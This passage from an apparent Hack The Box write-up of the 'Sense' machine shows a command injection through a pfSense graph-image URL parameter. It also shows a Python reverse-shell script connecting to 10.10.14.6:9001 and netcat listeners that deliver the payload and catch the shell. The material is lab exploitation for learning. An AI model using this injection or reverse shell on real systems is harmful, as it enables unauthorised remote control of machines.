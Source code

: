 ```http
GET /status_rrd_graph_img.php?database=queues;cd+..;cd+..;cd+..;cd+usr;cd+local;cd+www;echo+"CMD+INJECT">cmd.txt 
```

This allows command execution on the system, and write a file with "CMD INJECT" text on `/usr/local/www` directory which is same with webroot.

![](attachments/sense_10.png)

Then, I can see that the exploitation works.

Since it's limited to use various commands through URL parameter, I prepared payload as `rshell.py` and make it run by the target server through `nc` connection.
Here is the payload for spawning reverse shell.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cat rshell.py 
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.6", 9001))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

This cmd is supposed to open a reverse shell on port 9001.
Then, I opened a listener to transfer this payload.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000 < rshell.py
listening on [any] 9000 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.60] 1857
```

Also, since the payload is supposed to open a reverse shell on port 9001, I opened another listener.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9001    
listening on [any] 9001 ...
```
